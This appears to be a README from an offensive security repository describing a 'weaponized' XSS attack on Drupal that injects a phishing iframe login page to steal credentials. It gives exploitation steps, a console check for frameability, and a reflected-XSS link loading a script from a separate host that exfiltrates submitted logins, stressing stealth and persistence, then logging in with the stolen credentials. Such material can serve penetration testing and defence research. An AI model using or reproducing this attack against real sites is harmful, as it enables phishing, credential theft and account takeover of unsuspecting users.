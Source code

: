# [Phish] Iframe Login Page

* **NOTES**:
  * stealthy
  * persistent
    * exploit stays active:
      * upon failed login
      * upon logout (i.e. login ➔ logout)
    * exploit will remain active until victim's web browsers cache is cleared
  * avoids excessive log spam
    * exploit exfiltrates credentials only on submit form event (logs both successful and failed authentication attempts)

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [test target login page] navigate to target application in web browser

    http://192.168.5.17

2. [test target login page] confirm target login is iframe-able

    *(open developer console and execute following code)*

    ```
    const url = "http://192.168.5.17/user/login";
    const req = new XMLHttpRequest();
    req.open("GET", url, false);
    req.send(null);
    console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
    ```

    * **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. [setup exploit] change payload variable values (`phishLoginDrupal.js`)

    `exfilWebServer` - web server URL for credential exfiltration

    `drupalRoot` - path to Drupal installation on the target system (e.g. `"/drupal"`)

4. [setup exploit] setup web server (to serve the payload)

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.17/rxss.php?q=<script src=http://192.168.5.5/phishLoginDrupal.js></script>
    ```

    * **NOTES**:
      * `192.168.5.17` - target Drupal site
      * `192.168.5.5` - web server hosting payload

6. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

7. [post exploit] attacker logs into target Drupal site using obtained credentials

    http://192.168.5.17/user/login

## Screenshot

* **NOTE**: the screenshot covers steps 3 to 6 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Drupal/IframeLogin/screenshots/Drupal_-_iframe_login_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Drupal/IframeLogin/screenshots/Drupal_-_iframe_login_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/8410fe5a-2bad-409a-a52f-479e15ca0dc0
